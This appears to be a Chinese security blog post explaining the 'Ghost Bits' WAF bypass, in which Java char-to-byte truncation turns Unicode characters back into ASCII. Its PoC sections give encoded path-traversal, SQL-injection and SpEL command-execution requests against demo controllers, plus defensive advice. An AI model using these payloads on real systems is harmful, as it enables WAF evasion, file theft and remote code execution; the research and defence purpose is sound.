Ghost Bits 绕waf原理研究分析
免责声明
文章中涉及的内容可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。
前言
近期，Black Hat Asia 2026 公布的 “Ghost Bits”（幽灵比特位）漏洞在圈内引发了热议。议题中所讨论的缺陷横跨了 Spring、Tomcat、Fastjson 等主流 Java 组件，可以直接击穿现有的防御体系，导致大量历史漏洞死灰复燃，从而可以实现了“老洞新用”。本文将对其核心原理进行简要的剖析与学习，文末附议题的PPT。
1. 原理
1.1 Java char 与 byte 的本质差异
Java 的 char 是 16 位 Unicode，而 byte 是 8 位。当代码使用以下任意方式将 char 强转为 byte 时，高 8 位会被静默丢弃，常见的写法如下：
| 写法 | 等价行为 |
|---|---|
| (byte) ch | 只保留低 8 位 |
| baos.write(ch) | write(int) 只写入低 8 位 |
| DataOutputStream.writeBytes(String) | 逐 char 截断为 byte |
| ch & 0xFF | 显式取低 8 位 |
被丢弃的高 8 位数据，就是 “幽灵比特位” (Ghost Bits)。
下面来一个直观演示：一个汉字如何变成一个 ASCII 字符
以 SQL 注入中最关键的字符 单引号 ‘ (0x27) 为例，它的幽灵编码是汉字 逧 (U+9027)：
1 | 逧 (U+9027) 的 16 位二进制: |
当执行 (byte) 逧 或 baos.write(逧) 时：
1 | char: 1001 0000 0010 0111 (U+9027 = 逧) |
WAF 看到的是汉字“逧”，不会触发任何 SQL 注入规则；Java 后端一转 byte，立刻还原成单引号 ‘，闭合 SQL 语句。
1.2 攻击原理
对每个 ASCII 字符 进行ch，加上高位掩码 0x9000，生成幽灵字符 (char)(ch | 0x9000)，低 8 位保持不变：
1 | 原始 ASCII: '.' '/' 'e' 't' |
1.3 编码规则
1 | ASCII → 幽灵编码: ghost = (char)(ch | 0x9000) |
2. 分析
2.1 为什么 WAF 无法检测
| 攻击类型 | WAF 检测规则 | 幽灵编码后 |
|---|---|---|
| 路径穿越 | \.\./ |
逮逮逯 |
| SQL 注入 | ' OR.*=.*-- |
逧造遏遒造逧週逧逽逧週逧造逭逭 |
| 命令执行 | Runtime\.exec |
達逨遪遡遶遡逮遬... |
WAF 规则基于 ASCII 正则匹配，幽灵编码将每个 ASCII 字符替换为低 8 位相同的 Unicode 字符，WAF 看到的全是汉字/符号，规则完全不匹配。
2.2 为什么后端会执行
典型 Java 后端代码：
1 | ByteArrayOutputStream baos = new ByteArrayOutputStream(); |

2.3 Tomcat 的限制与绕过
Tomcat 的 Http11InputBuffer.parseRequestLine() 逐字节校验 HTTP 请求行，遇到高位字节 (>= 0x80) 会触发符号扩展 (byte 0xE9 → int -23)，导致 relaxedPathChars 白名单失效（集合存的是正整数 233），无法通过配置接受原始 UTF-8 字节。
但是可以识别经过URL编码之后的幽灵字符，另外的方式就是使用下面描述的方式：使用原生 ServerSocket + InputStreamReader("UTF-8") 在应用层直接读取原始字节流，跳过 Tomcat HTTP 解析器。
3. POC 与测试验证
3.1 路径穿越 — 任意文件读取
漏洞代码 (VulnerableFileController.java):
1 |
|

幽灵 Payload 构造 (../../../etc/passwd):
1 | ../ → 逮逮逯 ../ → 逮逮逯 ../ → 逮逮逯 |
攻击请求 :
1 | GET /vulnerable/ghost?payload=/阮严灵丰丰甲来/阮严灵丰丰甲来/阮严灵丰丰甲来/阮严灵丰丰甲来/阮严灵丰丰甲来/阮严灵丰丰甲来/阮严灵丰丰甲来/etc/passw%64 HTTP/1.1 |
验证结果:

WAF 视角对比:
1 | 未编码: ../../../etc/passwd → WAF 检测到 ../ → 拦截 ✗ |
3.2 SQL 注入
漏洞代码 (SqlVulnerableController.java):
1 |
|

正常请求

传统注入（' OR '1'='1' --）

幽灵 Payload 构造 (' OR '1'='1' --):
1 | ' → 逧 (空格) → 造 O → 遏 R → 遒 (空格) → 造 ' → 逧 |
攻击请求:
1 | GET /vulnerable/sql?username=逧造遏遒造逧週逧逽逧週逧造逭逭 HTTP/1.1 |
验证结果:

WAF 视角对比:
1 | 未编码: ' OR '1'='1' -- → WAF 检测到 SQL 关键词 → 拦截 ✗ |
3.3 SpEL 表达式注入 — RCE
漏洞代码 (SpelVulnerableController.java):
1 |
|

传统模板注入:
1 | （7*7） |

1 | T(java.lang.Runtime).getRuntime().exec('id') |

攻击请求:
1 | GET /vulnerable/spel?expr=達逨遪遡遶遡逮遬遡遮遧逮遒遵遮遴適遭遥逩逮遧遥遴遒遵遮遴適遭遥逨逩逮遥選遥遣逨逧適遤逧逩 HTTP/1.1 |
验证结果:

WAF 视角对比:
1 | 未编码: T(java.lang.Runtime).getRuntime().exec('id') → WAF 检测到 Runtime.exec → 拦截 ✗ |
4.工程化
这里用AI写了一个原生前端HTML文件可以在本地打开直接进行自定义的转码和解码。
GitHub地址：
1 | https://github.com/Garck3h/ghostbits-tool.git |

5. 总结
5.1 攻击链总结
1 | 攻击者构造幽灵 Payload (每个 ASCII → 低8位相同的 Unicode 字符) |
5.2 影响范围
任何满足以下条件的 Java 应用都存在风险：
- 接收用户输入（HTTP 参数、Header、Body）
- 使用 char→byte 强转处理输入（直接或间接）
- 后端存在可被利用的漏洞（SQL 拼接、路径拼接、表达式求值等）
5.3 防御建议
| 防御层 | 措施 | 说明 |
|---|---|---|
| 输入校验 | 拒绝非 ASCII 字符 | if (ch > 127) reject — 从根源阻断幽灵比特位 |
| 纵深防御 | 多层校验 | 输入校验 + 输出编码 + 最小权限 |
核心原则: 永远不要信任用户输入作为安全敏感操作的参数，即使它看起来是一堆乱码汉字。
附：议题PPT https://i.blackhat.com/Asia-26/Presentations/Asia-26-Bai-Cast-Attack-Ghost-Bits-4.23.pdf